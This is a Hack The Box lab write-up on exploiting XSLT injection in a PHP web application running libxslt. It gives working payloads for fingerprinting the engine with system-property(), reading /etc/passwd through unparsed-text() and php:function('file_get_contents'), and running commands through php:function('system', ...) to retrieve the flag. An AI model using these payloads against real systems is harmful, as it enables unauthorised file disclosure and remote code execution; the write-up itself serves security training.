








# Hack The Box - Identifying and Exploiting an XSLT Injection | Write-up

> **Platform:** Hack The Box &nbsp;•&nbsp; **Category:** Web &nbsp;•&nbsp; **Difficulty:** Easy
>
> **Target:** `154.57.164.76:32230` &nbsp;•&nbsp; **Time taken:** 15 mins
>
> **Author:** Jithin Jelson

---

## Introduction

In this lab we have been instructed to exploit an XSLT vulnerability in a web application that contains XML. It is very similar to the previous server-side injection attacks that we have demonstrated.

---

## Assessment Overview



---

## What I Learned

- How to fingerprint an XSLT processor's version and vendor using `system-property()` calls.
- Why the processor version matters, since XSLT 2.0 exposes `unparsed-text()` for file reads while 1.0 does not.
- Using PHP's `file_get_contents()` through `php:function()` to read local files when the engine is libxslt 1.0.
- Triggering a server error with a single `<` to confirm that input is parsed as XSLT.
- Escalating from local file disclosure to full remote code execution via `php:function('system', ...)`.
- That a web app reflecting user input into an XSLT transform can hand an attacker file read and RCE if PHP functions are exposed.

---

## Exploring the Target

We are greeted with a page that lets us input our name followed by academic modules for us to access.



*Figure 1 - The application homepage, taking a name and listing modules to access.*

When we view the page source we can see that the page runs XML.



*Figure 2 - The page source reveals the response is built from XML.*

---

## Confirming the Injection

The page tells us clearly that it is running PHP's XSLT. We can try and exploit this by entering a `<`, which in turn will cause an error in the server.



*Figure 3 - Submitting a single `<` breaks the transform and throws a server error.*

This confirms to us that an XSLT vulnerability exists. Our next step is to identify the library and version of the XSLT.

---

## Fingerprinting the XSLT Engine

To do this we can use the following elements:

```
Version: <xsl:value-of select="system-property('xsl:version')" />
<br/>
Vendor: <xsl:value-of select="system-property('xsl:vendor')" />
<br/>
Vendor URL: <xsl:value-of select="system-property('xsl:vendor-url')" />
<br/>
Product Name: <xsl:value-of select="system-property('xsl:product-name')" />
<br/>
Product Version: <xsl:value-of select="system-property('xsl:product-version')" />
```



*Figure 4 - The system-property output shows version 1.0 and vendor libxslt.*

We can see that the version is 1.0 and the vendor is libxslt.

---

## Local File Inclusion

To test for local file inclusion we need the previous information, as in version 2.0 XSLT contains a function called `unparsed-text` that can be used to read a local file.

```
<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')" />
```

However, since our web application runs version 1.0 and we know that PHP can be used, we can use the `file_get_contents` PHP function to read `/etc/passwd`.

```
<xsl:value-of select="php:function('file_get_contents','/etc/passwd')" />
```



*Figure 5 - file_get_contents returns the contents of /etc/passwd.*

---

## Remote Code Execution and the Flag

Now for remote code execution we can call another PHP function, `system`, to execute a command.

```
<xsl:value-of select="php:function('system','id')" />
```



*Figure 6 - php:function calling system('id') confirms remote code execution.*

Now we can use `ls` and `cat` to correctly find our flag. The final flag is located at:

```
<xsl:value-of select="php:function('system','cat ../../../flag.txt')" />
```



*Figure 7 - Reading the flag with cat ../../../flag.txt.*

> **Question:** Retrieve the flag from the target.

**Answer:** `see Figure 7`
